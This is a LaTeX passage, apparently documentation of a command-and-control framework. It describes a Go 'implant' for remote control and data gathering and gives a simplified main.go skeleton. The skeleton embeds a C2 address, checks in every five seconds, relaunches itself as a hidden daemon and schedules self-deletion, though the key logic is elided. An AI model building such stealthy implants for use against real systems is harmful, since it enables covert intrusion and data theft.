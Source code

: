 \section{Implant Implementation (Go)}
The implants are standalone Go executables designed for cross-platform compatibility and incorporating various functionalities for remote control and data gathering.

\subsection{Core Loop and Communication}
The implant's main operational logic resides in its \texttt{main.go} file. After initial setup, which includes daemonization and self-deletion scheduling, the implant enters a continuous loop.
(Refers to your `implant/main.go` structure)
\begin{verbatim}
// implant/main.go (simplified conceptual structure)

//go:embed placeholder.txt
var implantIDBytes []byte // Embedded implant ID placeholder

//go:embed c2_address.txt
var c2AddressBytes []byte // Embedded C2 address placeholder

const checkInInterval = 5 * time.Second

var (
    exePath string // Path to the currently running implant executable
    gOriginalLauncherPath string // Path to the initial launcher, passed via env
    // ... other global vars like C2 URLs
)

func main() {
    var err error
    exePath, err = os.Executable() // Path of the CURRENTLY executing file
    if err != nil {
        // Handle error, perhaps log and exit
        os.Exit(1)
    }

    isBackgroundProcess := (os.Getenv(backgroundMarkerEnvVar) == "1")

    if !isBackgroundProcess {
        // This is the initial execution. Relaunch self in background.
        // Call platform-specific relaunchAsDaemonInternal, passing exePath as the
        // original launcher path to be stored in gOriginalLauncherPath by the child.
        // relaunchAsDaemonInternal will copy exePath and run the copy.
        // The original launcher (this process) exits after successful relaunch.
        // ... relaunch logic ...
        os.Exit(0)
    }

    // --- We ARE the background process ---
    os.Unsetenv(backgroundMarkerEnvVar) // Clear marker
    gOriginalLauncherPath = os.Getenv(originalPathEnvVar) // Get original launcher path
    os.Unsetenv(originalPathEnvVar) // Clear for security


\end{verbatim}
